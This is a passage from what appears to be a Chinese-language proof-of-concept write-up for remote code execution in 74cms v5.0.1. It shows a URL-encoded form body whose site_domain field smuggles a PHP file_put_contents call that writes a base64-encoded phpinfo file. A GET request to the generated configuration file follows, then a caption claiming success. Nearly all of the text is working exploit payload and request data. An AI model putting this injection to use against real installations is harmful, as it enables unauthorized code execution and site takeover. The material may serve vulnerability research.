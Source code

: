     site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=
    GET /74cms/Application/Common/Conf/url.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

成功截图

![](./resource/74cmsv5.0.1远程执行代码/media/rId27.png)
